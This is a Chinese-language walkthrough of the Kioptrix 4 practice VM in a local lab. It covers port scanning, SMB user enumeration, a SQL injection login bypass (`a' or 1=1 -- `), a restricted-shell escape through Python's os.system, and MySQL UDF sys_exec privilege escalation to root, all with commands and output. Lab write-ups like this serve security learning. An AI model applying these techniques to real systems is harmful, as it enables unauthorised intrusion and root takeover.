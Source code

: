 打开靶机，和kali攻击机在同一网段

### 信息收集
用arp-scan和nmap获取机器IP为192.168.159.132

#### 端口扫描
```
msf$ db_nmap -sT -sV -p 1-65535 192.168.159.132
msf$ services 192.168.159.132
host             port  proto  name         state  info
----             ----  -----  ----         -----  ----
192.168.159.132  22    tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1.2 protocol 2.0
192.168.159.132  80    tcp    http         open   Apache httpd 2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
192.168.159.132  139   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
192.168.159.132  445   tcp    smb          open   Unix (Samba 3.0.28a)
```

#### web
测试了以下密码字段可以sql注入`a' or 1=1 -- `，但是sqlmap注入不出来，调整risk和level没有效果

#### smb信息探测
用nmap的脚本或者msf的扫描
```
root@kali:~/test# nmap --script smb-enum-users 192.168.159.132
Host script results:
| smb-enum-users: 
|   KIOPTRIX4\john (RID: 3002)
|     Full name:   ,,,
|     Flags:       Normal user account
|   KIOPTRIX4\loneferret (RID: 3000)
|     Full name:   loneferret,,,
|     Flags:       Normal user account
|   KIOPTRIX4\nobody (RID: 501)
|     Full name:   nobody
|     Flags:       Normal user account
|   KIOPTRIX4\robert (RID: 3004)
|     Full name:   ,,,
|     Flags:       Normal user account
|   KIOPTRIX4\root (RID: 1000)
|     Full name:   root
|_    Flags:       Normal user account
```

```
msf5 auxiliary(scanner/smb/smb_enumshares) > use auxiliary/scanner/smb/smb_enumusers 
msf5 auxiliary(scanner/smb/smb_enumusers) > set RHOSTS 192.168.159.132
RHOSTS => 192.168.159.132
msf5 auxiliary(scanner/smb/smb_enumusers) > run

[+] 192.168.159.132:139   - KIOPTRIX4 [ nobody, robert, root, john, loneferret ] ( LockoutTries=0 PasswordMin=5 )
[*] 192.168.159.132:      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 漏洞分析
`searchsploit`后没有发现什么可以利用的漏洞版本

smb服务发现一些用户信息，可以使用ssh暴破弱口令尝试

### 漏洞利用
实在没有发现什么可以利用的地方，看别人writeup使用smb暴破出来的john加上使用密码表单提交`a' or 1=1 -- `会返回密码，实际中并没有返回密码，但是返回界面确实一样，于是怀疑是sqlmap注入的时候破坏了数据表，但是sqlmap没有成功注入

使用网上writeup的john用户的密码登录
```
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
```

### 后渗透利用
发现shell的命令是在少，没有可以利用的地方，也无法查看重要的目录，sudo、suid、cron等方式都无法使用

又没有办法提权，查看别的writeup使用了ubuntu默认使用python的特性，可以提权
```
john:~$ echo os.system('/bin/bash')
john@Kioptrix4:~$ help
```

对这种方式表示惊呆了，然后对公司多个主机使用此方式切换shell尝试均无效，所以不研究了。。。

获取bash后查看sudo不能使用，suid不想一个个看过去，cron没有人用，尝试软件或者linux版本是否能提权

`ps -ef |grep root`，能看到mysql用root启动

尝试mysql提权，查看资料有UDF提权

```
john@Kioptrix4:~$ locate udf
/lib/modules/2.6.24-24-server/kernel/fs/udf
/lib/modules/2.6.24-24-server/kernel/fs/udf/udf.ko
/usr/lib/lib_mysqludf_sys.so
/usr/share/mysql/mysql-test/include/have_udf.inc
/usr/share/mysql/mysql-test/r/have_udf.require
/usr/share/mysql/mysql-test/r/have_udf_example.require
/usr/share/mysql/mysql-test/r/udf.result
/usr/share/mysql/mysql-test/t/udf.test
john@Kioptrix4:~$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> select * from mysql.func
    -> ;
+-----------------------+-----+---------------------+----------+
| name                  | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function | 
| sys_exec              |   0 | lib_mysqludf_sys.so | function | 
+-----------------------+-----+---------------------+----------+
2 rows in set (0.00 sec)

mysql> select sys_exec('usermod -a -G admin john');
ERROR 2006 (HY000): MySQL server has gone away
No connection. Trying to reconnect...
Connection id:    1
Current database: *** NONE ***

+--------------------------------------+
| sys_exec('usermod -a -G admin john') |
+--------------------------------------+
| NULL                                 | 
+--------------------------------------+
1 row in set (0.05 sec)

mysql> exit
Bye
john@Kioptrix4:~$ sudo su
[sudo] password for john: 
root@Kioptrix4:/home/john# whoami
root
```

### 其他
这次完全不能提权，知识面有限，全靠别人writeup
